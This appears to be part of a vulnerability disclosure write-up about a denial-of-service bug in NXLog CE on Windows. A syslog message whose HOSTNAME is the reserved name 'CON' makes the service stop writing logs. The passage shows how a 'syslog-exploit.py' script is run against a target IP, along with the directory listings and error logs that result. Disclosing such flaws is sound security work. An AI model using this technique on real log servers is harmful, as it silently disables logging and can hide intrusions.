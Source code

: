 
### 2.1.2 Test :
With my python script I can just send a Syslog message for test if Nxlog service create directory. 

The name of directory is based on the **HOSTNAME** field of the Syslog payload. (See configuration file)

So :
````bash
./syslog-exploit.py -ip 192.168.1.54 -os 3
````

Directory and log are created :
````powershell
ls "C:\Program Files (x86)\nxlog\data\"
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       29/11/2020     19:31                123soleil
-a----       29/11/2020     19:52            257 nxlog.log

ls "C:\Program Files (x86)\nxlog\data\123soleil"
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       29/11/2020     19:31             75 123soleil.log 

cat "C:\Program Files (x86)\nxlog\data\123soleil\123soleil.log"
<30>Sep 14 14:09:09 123soleil dhcp service[warning] 110 Silence is golden
````


---

### 2.1.3 Exploit :
Now if I specify a hostname with a forbidden name :
````bash
./syslog-exploit.py -ip 192.168.1.54 -os 2
````

In Nxlog internal log :
````bash
cat 'C:\Program Files (x86)\nxlog\data\nxlog.log' 
````

Return :
````text
2020-11-29 19:30:57 INFO nxlog-ce-2.10.2150 started
2020-11-29 19:50:45 ERROR CreateDir is TRUE but couldn't create directory: C:\Program Files (x86)\nxlog\data\CON; Invalid directory name.
````

All new logs sent by Syslog clients will no longer be written to the filesystem. 

Because the nxlog service is in an unknown state because it tries to create a directory that cannot be created.

For illustrate, if I try to send a new syslog payload to server I have this log in internal log :
````text
2020-11-29 19:30:57 INFO nxlog-ce-2.10.2150 started
2020-11-29 19:50:45 ERROR CreateDir is TRUE but couldn't create directory: C:\Program Files (x86)\nxlog\data\CON; Invalid directory name.
2020-11-29 19:52:48 ERROR last message repeated 3 times
````
